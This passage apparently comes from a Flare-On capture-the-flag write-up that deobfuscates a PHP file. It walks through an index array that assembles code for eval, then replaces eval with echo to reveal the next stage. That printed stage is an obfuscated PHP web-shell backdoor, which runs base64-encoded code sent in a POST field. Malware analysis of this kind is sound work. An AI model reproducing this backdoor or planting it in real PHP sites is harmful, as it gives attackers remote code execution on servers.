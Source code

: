 ```php
$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);

$do_me="";

for($i=0;$i<count($order);$i++){
    $do_me=$do_me.$terms[$order[$i]];
}

eval($do_me); ?>
```

Here are the information we can derived from the deobfuscated php code:
- `$terms` containing shuffled set of characters
- `$order` containing a list of indices, each pointing to an element in `$terms`
- `$do_me` will form a string after iteration through `$order` by extracting characters from `$terms`
- `eval($do_me)` will execute it

The caveat here is that eval is to execute strings as if it is a PHP code, since everything most of the contents is obfuscated, executing eval will show us anything. 

##### Modify the deobfuscated php script
To observe strings output, we change modify `eval` to `echo` and execute it. Here is the output:
```bash
$ php flare-on_extracted.php 

$_= \'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7\';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
```
